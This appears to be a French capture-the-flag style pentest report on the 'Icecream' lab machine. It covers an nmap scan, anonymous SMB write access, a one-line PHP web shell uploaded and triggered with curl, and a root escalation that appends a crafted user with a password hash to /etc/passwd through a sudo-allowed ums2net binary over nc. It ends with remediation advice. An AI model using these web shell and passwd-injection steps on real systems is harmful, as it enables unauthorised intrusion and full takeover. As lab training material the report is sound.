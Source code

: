   # 📌 Rapport de Vulnérabilité : Icecream

## 1. Introduction

### Objectif  
Identifier et exploiter les failles de sécurité de la machine cible **"Icecream"**.

### Informations sur les IP  
- **IP Cible :** 192.168.188.214  
- **IP Kali :** 192.168.188.128  

Après avoir installé **Icecream** et testé la communication entre les machines, nous pouvons commencer le pentest.

![image6](https://github.com/user-attachments/assets/9ace5f64-811d-46d2-91d4-72febc164dd2)

## 2. Découverte et Analyse Initiale des Services

### 2.1. Scan Nmap

#### Commandes exécutées :  
Définition de la variable IP cible et exécution d’un scan complet des ports, suivi d’un scan approfondi (`-sVC`) pour détecter les services et versions.

```bash
target=192.168.188.214  
nmap -T4 -p$(nmap -Pn -T4 -n -p- $target | grep 'tcp.*open' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) -Pn -n -sVC $target
```
![image22](https://github.com/user-attachments/assets/e734ee50-4961-4aca-9e03-bc7c6898ce2c)
![image17](https://github.com/user-attachments/assets/503917ee-c35a-4a19-8e35-8cdc01de8788)


### 2.2. Analyse des services ouverts  

| Port  | Service      | Version / Info                 |
|-------|------------|--------------------------------|
| 22    | SSH        | OpenSSH 9.2p1 (Debian 12)      |
| 90    | HTTP       | Nginx 1.22.1 (403 Forbidden)   |
| 139   | SMB        | Samba 4.6.2 (NetBIOS)          |
| 445   | SMB        | Samba 4.6.2                    |
| 9000  | HTTP       | Nginx Unity 1.33.0 (Unit Server) |

## 3. Potentielles Pistes d'Exploitation

### 3.1. Exploitation des Ports SMB  
Analyse des vulnérabilités potentielles des ports **139** & **445** (Samba 4.6.2).  
Après consultation de **SearchSploit** et **CVE Details**, aucune faille exploitable récente n'a été identifiée.

![image10](https://github.com/user-attachments/assets/42d9558e-304b-4ecb-b066-57725a8cab04)

#### Tests de connexion SMB  
Utilisation de `smbclient` pour tester l'accès aux partages.

```bash
smbclient -L //192.168.188.214 -N  
```

![image16](https://github.com/user-attachments/assets/c8d78cbc-5a76-46fb-83a8-afb3c3c30e1d)

Connexion au partage **"icecream"** :  

```bash
smbclient //192.168.188.214/icecream -N  
```

![image9](https://github.com/user-attachments/assets/f50dd2e9-d504-4395-a02a-986c214d73b1)
![image1](https://github.com/user-attachments/assets/b5c39a4a-6de5-40d2-bf67-71b3fcb81223)

📌 **Constat :**  
✅ Accès en écriture confirmé.  

## 4. Exploitation et Accès à la Machine

### 4.1. Mise en place d'un Web Shell  
Création et envoi d’un **Web Shell** pour exécuter des commandes à distance.

```bash
echo "<?php system(\$_GET['cmd']); ?>" > shell.php  
```

Envoi du Web Shell via **SMB** :  

```bash
smbclient //192.168.188.214/icecream -N  
put shell.php  
```

![image11](https://github.com/user-attachments/assets/1ed001af-bbb4-42bd-98da-bea0c9d9d268)

Exécution de commandes :  

```bash
curl "http://192.168.188.214/shell.php?cmd=id"  
```

![image21](https://github.com/user-attachments/assets/e3582859-8fa2-40bf-a03a-a15324c71a66)

## 5. Élévation de Privilèges

### 5.1. Analyse avec Linpeas et PSPY  
Téléchargement et exécution de **Linpeas** et **PSPY** pour identifier des vulnérabilités d’élévation de privilèges.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh  
chmod +x linpeas.sh  
./linpeas.sh  
```

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64  
chmod +x pspy64  
./pspy64  
```

### 5.2. Exploitation de CVE-2021-3156  
Tentative d’exploitation de **CVE-2021-3156 (sudo heap overflow)** pour obtenir un shell root.  
❌ **Échec :** La version du système ne permet pas l’exploitation de cette faille.

### 5.3. Exploitation via ums2net  
L'exécutable `/usr/sbin/ums2net` est utilisable **sans mot de passe (NOPASSWD)**, ce qui permet de **modifier `/etc/passwd`** et d’ajouter un utilisateur root.

#### Modification de `/etc/passwd`  
```bash
echo 'aurelien:$6$IPVFVjVKK55o19kF$XqJHT3H5Qcmk96/iaLUfcC3UQPEYF0yFGzRtTinb/9NfQZIpWed9UfA6YBaEWhE5TRc1MLaXgLHWUtYI010Pj1:0:0:aurelien:/home/aurelien:/bin/bash' >> passwd  
nc -v 192.168.188.214 5000 < ./passwd  
sudo /usr/sbin/ums2net -c /tmp/config -d  
```

✅ **Accès root obtenu** via l’utilisateur **"aurelien"**.

## 6. Recommandations de Sécurité pour Corriger la Vulnérabilité ums2net

### 6.1. Révision des Permissions de Sudo  
Modifier le fichier `/etc/sudoers` pour supprimer **NOPASSWD** des commandes sensibles.

### 6.2. Sécurisation des Fichiers de Configuration  
- Restreindre les permissions de `/etc/passwd` :  
```bash
  chmod 644 /etc/passwd  
- Empêcher **ums2net** d’être exécuté en tant que root.
```

### 6.3. Mise à Jour et Patch du Système  
- Désinstaller ou mettre à jour **ums2net**.
- Vérifier les services SMB et SSH pour éviter les accès non autorisés.

## 7. Conclusion  
Nous avons réussi à :  
1. **Accéder au partage SMB** et identifier des fichiers exploitables.  
2. **Déployer un Web Shell** pour obtenir un accès shell distant.  
3. **Élever nos privilèges à root** en exploitant **ums2net**.

📌 **Actions correctives impératives** :  
- **Désactiver ou patcher ums2net**.  
- **Appliquer des restrictions sur SMB et SSH**.  
- **Surveiller les logs système pour détecter toute activité suspecte**.
